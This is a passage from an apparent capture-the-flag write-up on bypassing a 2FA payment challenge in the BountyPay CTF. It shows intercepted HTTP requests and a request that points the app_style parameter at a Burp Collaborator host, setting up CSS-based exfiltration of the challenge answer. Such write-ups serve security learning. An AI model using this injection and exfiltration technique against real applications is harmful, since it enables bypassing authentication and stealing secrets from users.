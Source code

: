 Ok. let's intercept the next request (when we click on "Send Challenge" button) and see what it looks like:

```http
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9

app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css
```
And the relevant HTML snippet from the response:
```html
<h1 class="text-center">BountyPay</h1>
<h3 class="text-center">2FA Payment Challenge</h3>
<form method="post">
	<input type="hidden" name="challenge_timeout" value="1591490942">
	<input type="hidden" name="challenge" value="2cf37bd3c17d4621658828b374579adb">
	<div class="panel panel-default" style="margin-top:50px">
		<div class="panel-heading">Payment Challenge Sent</div>
		<div class="panel-body text-center">
			<p>We have sent the payment challenge to your 2FA, you have 2 minutes to enter the code, please enter it below</p>
			<div><input name="challenge_answer" class="form-control" maxlength="7"></div>
		</div>
	</div>
	<input type="submit" class="btn btn-success pull-right" value="Send Answer">
</form>
```
Issuing the request a few more times I confirmed that we're presented with a new `challenge`value every time, and our goal is to get the right `challenge_answer` for it, which shouldn't be longer than 7 characters (`maxlength="7"`).The only unusual thing about this is that the POST request contains `app_style` parameter which references a stylesheet from `https://www.bountypay.h1ctf.com/css/uni_2fa_style.css`.

This seems a lot like we're going to need to exfiltrate `challenge_answer`with CSS, but let's confirm step by step.

Firstly, I've made a request using Burp Collaborator payload to confirm we can fetch a stylesheet from an arbitrary external resource:

```http
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9

app_style=https://u1w9neu3o71nmwn6ryh9o7zbg2msah.burpcollaborator.net/css/uni_2fa_style.css
```
And I got a hit straight away:
{F863231}

A few things are worth noting when inspecting the request received by Collaborator:
1. `User-Agent` tells us that request was made from Headless Chrome. 
2. [`Sec-Fetch-Dest: style`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Dest) tells us that the resource would be embedded as a stylesheet (using `<link ... rel="stylesheet">`)
